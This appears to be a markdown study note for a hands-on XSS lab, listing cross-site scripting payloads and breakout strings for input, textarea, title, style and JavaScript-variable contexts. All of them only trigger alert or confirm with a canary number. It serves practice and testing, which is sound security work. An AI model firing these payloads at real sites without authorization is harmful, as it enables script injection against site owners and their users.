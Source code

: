 # hackinghub  

## xss  
[https://app.hackinghub.io/hubs/nbbc-xss](https://app.hackinghub.io/hubs/nbbc-xss)  

### basic xss  

The number `19628397001` in the examples below is just a random number that can be used as a [canary](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/settings/canary) to search proxy history for the value.  

Try to start with simple payload like `<h1>19628397001` to see what happens.  

```
<script>alert(19628397001)</script>
<script>alert(19628397001)
<script>alert(19628397001);//</script>
<script>confirm(19628397001);//</script>
<img src=xxxxx onmouseover=alert(19628397001)>
<img src=xxxxx onerror=alert(19628397001)>
<a href=javascript:alert(19628397001)>xsstest</a>
<a href=javascript:alert(19628397001)>xsstest
<iframe src=javascript:alert(19628397001)>
<object data="data:text/html,<script>alert(19628397001)</script>"></object>
<script src="data:text/javascript,alert(19628397001)"></object>
</p><h1><u/onmouseover=alert(1)>19628397001
```  

### contexts  

#### input example  

value inside an input:  
`<input value="19628397001">`  

try to break out with a payload like...    
```
test"><script>alert(19628397001)</script>
```  

or use an event like this...  
```
test" onmouseover=alert(19628397001);//
```  

#### textarea example   

value inside a textarea:  
`<textarea>19628397001</textarea>`  

try to break out with a payload like...  
```
test</textarea><img/src=x onerror=alert(19628397001)>
```  

#### title example  

value inside a title:  
`<title>Welcome, 19628397001</title>`  

try to break out with a payload like...  
```
test</title><img/src=x onerror=alert(19628397001)>
```  

#### style tag in head section  
expected value format `#FFFFFF`, but example below input value (`19628397001`):  
```HTML
<head>
        <style>
                body {
                        background-color: 19628397001;
                }
        </style>
</head>
```  

try to break out with a payload like...  
```
#FFFFFF;}</style><script>alert(19628397001)</script><!--
```

#### javascript variables  

value `19628397001` instead a javascript variable:  
```
<script>
var name = '19628397001';
$('span#name').html( name );
</script>
```

try to break out with a layload like...  
```
';alert(19628397001);//
```
